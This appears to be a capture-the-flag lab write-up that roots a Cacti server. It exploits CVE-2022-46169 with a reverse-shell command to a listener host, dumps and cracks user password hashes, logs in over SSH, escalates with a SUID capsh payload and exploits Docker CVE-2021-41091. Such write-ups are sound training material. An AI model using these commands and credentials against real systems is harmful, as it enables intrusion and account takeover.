nmap scan

The server is running cacti 1.2.22 which is vulnerable





https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```




It's is a docker container

there is a entrypoint.sh



run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```




we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus



marcus - funkymonkey

let's ssh with this credentials




now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container




we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell



now let's run the exploit





we have rooted the box.